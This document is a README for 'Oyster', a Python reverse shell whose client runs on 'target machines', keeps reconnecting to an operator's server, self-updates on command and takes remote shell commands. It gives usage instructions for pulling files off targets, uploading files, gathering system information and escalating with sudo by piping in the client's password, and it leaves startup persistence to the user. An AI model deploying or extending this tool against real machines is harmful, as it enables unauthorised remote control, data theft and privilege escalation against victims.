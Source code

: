 ```python
 .oOOOo.
.O     o.
O       o               O
o       O              oOo
O       o O   o .oOo    o   .oOo. `OoOo.
o       O o   O `Ooo.   O   OooO'  o
`o     O' O   o     O   o   O      O
 `OoooO'  `OoOO `OoO'   `oO `OoO'  o
              o
           OoO'
```

Oyster is a lightweight multi-threaded reverse shell written in python 
3.5.  The server can push updates to the clients, and the clients will
overwrite/restart themselves.  Client/Server/Server Shell commands can 
also be added using the plugin system.

I wrote this after finding an example reverse shell on the thenewboston 
youtube channel.  I saw some things I wanted to improve, so that's what 
I attempted to do.  The clients will continuously try to make a 
connection with the server.

## Control Server

Start `server.py` from the command line.  Here are the keyword arguments 
used for `server.py`:

```
host        - Host IP address.
port        - Host port.
recv_size   - Buffer size for receiving and sending data.
listen      - Maximum number of queued connections.
bind_retry  - How many times to retry binding the socket to the port.
```

Example:

All of the arguments provided below are the defaults except `host`, 
which is a blank string as the default.

```
python3 server.py host=0.0.0.0 port=6667 recv_size=1024 listen=10 bind_retry=5
```

## Oyster Shell

The Oyster Shell is the main interface.  It's what you use to select 
which clients you would like to send commands to, and push updates to 
the `client.py` file on all of the connected target machines.  You know
you're working with the Oyster Shell if you see the following prompt:

```
Oyster> 
```

Commands for the `Oyster` shell are:

```
list                        -   List the connected clients.
    
update all                  -   Update all the connected clients using 
                                `update.py`.  Clients will overwrite 
                                themselves and reboot themselves.
                                
use {target ip/index}       -   Use a target connection.  {target ip/index} 
                                can be found by running the `list` command.

upload                      -   Upload a file to a client.
                                
quit                        -   Shut everything down.
```

### Oyster Shell's `use` Command

The `use` command will drop you into a client shell.  This is used to 
navigate and manipulate the client's computer.  Once executed, the `use` 
command will drop you into a shell for the given connection[ip address 
or index givin by the `list` command].  You'll know you're in a client 
shell when you see an ip address along with a directory structure with a
`> ` at the end:

```
<10.0.0.8> /Some/Directory> 
```


To get out of the connection's shell, run the `quit` command.  This will 
take you back to the `Oyster` shell.

Example:

```
Oyster> use 10.0.0.8
<10.0.0.8> /Users/SomeUser/Remote/Computer/Where/Client.py/Is/Stashed> quit
Oyster> 
```

### Client Shell Commands

There are other client shell commands besides `quit`:

```
get "{target filepath}" "{local filepath}"      -   Download a file from 
                                                    the target.

upload {local filepath} {target filepath}       -   Upload a file to the
                                                    target.

sysinfo                                         -   Get system info from
                                                    the target.
```

Example:

```
Oyster> use 10.0.0.8
<10.0.0.8> /Users/SomeUser/Where/The/Client/Is/Stashed> get ~/Music/song.m4a song.m4a
< File Stashed: song.m4a >
<10.0.0.8> /Users/SomeUser/Where/The/Client/Is/Stashed> 
```

### Adding Client/Server/Shell Commands

A plugin api is available for adding client/server/server shell 
commands.  The `get` command is actually implemented as a plugin.  Check 
out the `Get.py` file in the `client_plugins` folder for an 
[example plugin](https://github.com/Wykleph/Oyster/blob/master/client_plugins/Get.py).

A client plugin must be a python file with a `Plugin` class that has an
`invocation` attribute that tells it what command invokes the plugin, 
and a `run` method that takes an instance of the `Client` object and 
a string of `data` as the two arguments.  Example.  This plugin tells
the client to echo "Hello!" back to the server:

```python
class Plugin(object):
    """
    Say hello to the server if it requests it.
    """
    
    invocation = 'say hello'
    
    def run(self, client, data):
        client.send_data('Hello!')
```

A server/server shell plugin is written exactly like a client plugin, 
except the `run` method takes a `Server` instance as the first argument
instead of a `Client` instance.

The `client_plugins/Get.py` file is what handles the `get` command sent 
from the server.  The `server_plugins/Get.py` file handles the 
server-side implementation of the `get` command.  A simpler plugin 
example can be found in the `client_plugins/SysInfo.py` file.  It runs 
some functions to gather some basic information about the clients 
system, then sends it to the server. Be careful implementing command 
plugins as you can override shell commands.  Look at the 
`ChangeDirectory` plugin in the `client_plugins` to see a good example 
of how the `cd` command is actually implemented in python, and not using 
the native shell command.

### Using `sudo` with connected clients

`echo` the password and pipe it into the `sudo` command with the `-S`
flag.

```
echo "ClientsPassword" | sudo -S chown $USER:admin /usr/local/include
```

You may need to add a newline character to the end of your password.

```
echo "ClientsPassword\n" | sudo -S chown $USER:admin /usr/local/include
```

Check out the `man` pages for `sudo` on the client if this doesn't work.
I'm not sure how much the `-S` flag differs between unix flavours.

## Client

Start `client.py` on the target machine.  The client should keep itself
up and running, unless it errors out for some odd reason.  When updates
are pushed to the client from the server, the client will overwrite
and restart itself.  It's up to the user to figure out how to get this 
to run on startup or whatever.  Here are startup arguments.

```
host
port
recv_size
```

Example:

```
python3 client.py host=10.0.0.215 port=6667 recv_size=1024
```
